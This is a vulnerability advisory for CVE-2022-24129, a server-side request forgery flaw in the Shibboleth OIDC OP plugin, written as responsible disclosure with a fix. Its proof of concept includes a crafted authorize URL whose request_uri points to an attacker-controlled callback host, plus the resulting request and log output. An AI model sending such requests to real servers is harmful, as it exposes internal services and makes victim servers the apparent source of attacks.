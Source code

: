 # Shibboleth Identity Provider OIDC OP Plugin Server-Side Request Forgery #

## Vulnerability Overview ##

Shibboleth Identity Provider OIDC OP plugin 3.0.3 or below is prone to a
server-side request forgery (SSRF) vulnerability due to an insufficient
restriction of the `request_uri` parameter. This allows unauthenticated
attackers to interact with arbitrary third-party HTTP services.

* **Identifier**            : SBA-ADV-20220127-01
* **Type of Vulnerability** : Server-Side Request Forgery (SSRF)
* **Software/Product Name** : [Identity Provider OIDC OP Plugin](https://shibboleth.atlassian.net/wiki/spaces/IDPPLUGINS/pages/1376878976/OIDC+OP)
* **Vendor**                : Shibboleth Consortium
* **Affected Versions**     : <= 3.0.3
* **Fixed in Version**      : 3.0.4
* **CVE ID**                : CVE-2022-24129
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:H/A:N
* **CVSS Base Score**       : 8.6 (High)

## Vendor Description ##

> The OIDC OP plugin is the successor to the original GEANT-funded add-on to
> Shibboleth and is now available as an offically-supported plugin for IdP
> V4.1 and above. It provides conformant OIDC OP functionality alongside the
> SAML and CAS support previously native to the IdP software.

Source: <https://shibboleth.atlassian.net/wiki/spaces/IDPPLUGINS/pages/1376878976/OIDC+OP>

## Impact ##

An unauthenticated attacker can interact with arbitrary third-party HTTP
services by exploiting the vulnerability documented in this advisory. This
might lead to manipulation of internal services accessible by the server
running the affected software. Moreover, an attacker can send malicious
requests to external services, while the server running the affected
software appears as the source of the attack.

## Vulnerability Description ##

The OIDC specification allows an OIDC RP to send authentication requests via
a request object. These request objects can be either sent directly as
`request` parameter or indirectly by passing an URL as `request_uri`
parameter. In the latter case, the OIDC provider fetches the request
object via an HTTP-GET request from the specified URL.

The Shibboleth OIDC OP plugin supports this behavior, but does not validate
the passed `request_uri` before issuing the HTTP-GET request.
An unauthenticated attacker might exploit this to perform server-side
request forgery and issue malicious HTTP-GET requests to services reachable
by the server running the plugin. For example, an attacker could try to
access protected internal services which are not reachable from public
or adjacent networks, otherwise.

The Shibboleth OIDC OP plugin does not return information from the issued
HTTP response to the attacker when it cannot parse the response as JWS.
Therefore, the ability of an attacker is mostly limited to initiate
operations on HTTP services.
Additionally, an attacker can find out the exact Shibboleth IdP version by
letting the OIDC OP plugin connect to an attacker-controlled service and
inspecting the user agent header of the HTTP request.

## Proof of Concept ##

We set up an Shibboleth IdP version 4.1.5 with the OIDC OP plugin 3.0.3
and deployed the following client metadata.

```json
[
  {
    "scope":"openid email",
    "redirect_uris":["https://demorp.example.org/redirect_uri"],
    "client_id":"demo_rp",
    "client_secret":"topsecret",
    "response_types":["code"],
    "grant_types":["authorization_code"],
    "request_uris":["https://example.org"]
  }
]
```

In the client metadata we first specified no `request_uris` parameter. We
then also tried to set the `request_uris` parameter to `https://example.org`
(see above), both leading to the following behavior.

We issued an authentication request via the following URL specifying an
`request_uri` parameter pointing to an attacker-controlled server:

```plain
https://idp.example.org/idp/profile/oidc/authorize?client_id=demo_rp&request_uri=https://na1wjvvodi7fua6a3ulaxtq48vel2a.burpcollaborator.net
```

On the attacker-controlled server we received the following request:

```http
GET / HTTP/1.1
Host: na1wjvvodi7fua6a3ulaxtq48vel2a.burpcollaborator.net
Connection: Keep-Alive
User-Agent: ShibbolethIdp/4.1.5 OpenSAML/4.1.1
Accept-Encoding: gzip,deflate
Connection: close
```

Additionally, the Shibboleth IdP logged the following output:

```plain
2022-01-28 20:22:58,290 - 127.0.0.1 - ERROR [net.shibboleth.idp.plugin.oidc.op.profile.impl.SetRequestObjectToResponseContext:144] - Profile Action SetRequestObjectToResponseContext: Unable to parse request object from request_uri, Invalid JWT serialization: Missing dot delimiter(s)
```

This indicates that the OIDC OP plugin sent the HTTP request, but could not
parse the HTTP response.

## Recommended Countermeasures ##

As a countermeasure for the vendor we recommend to only accept the
`request_uri` parameter when an allow list is configured in the client
metadata and the supplied `request_uri` matches the client metadata.
Additionally, the allow list should not be arbitrarily configurable via
the dynamic client-registration endpoint.

According to the vendor this countermeasure was implemented in version 3.0.4,
therefore we recommend users to use versions 3.0.4 or later.

## Timeline ##

* `2022-01-27`: identification of vulnerability in version 3.0.3
* `2022-01-27`: initial vendor contact
* `2022-01-27`: disclosed vulnerability to vendor security contact
* `2022-01-28`: vendor acknowledged vulnerability
* `2022-01-29`: request CVE from MITRE
* `2022-01-30`: MITRE assigned CVE-2022-24129
* `2022-01-31`: vendor released version 3.0.4
* `2022-01-31`: public disclosure

## References ##

* OpenID Connect specification: <https://openid.net/specs/openid-connect-core-1_0.html#RequestUriParameter>
* Vendor security advisory: <https://shibboleth.net/community/advisories/secadv_20220131.txt>

## Credits ##

* David Gnedt ([SBA Research](https://www.sba-research.org/))
* Andreas Bernauer-Puchegger ([SBA Research](https://www.sba-research.org/))
* Franz Wieshaider ([SBA Research](https://www.sba-research.org/))
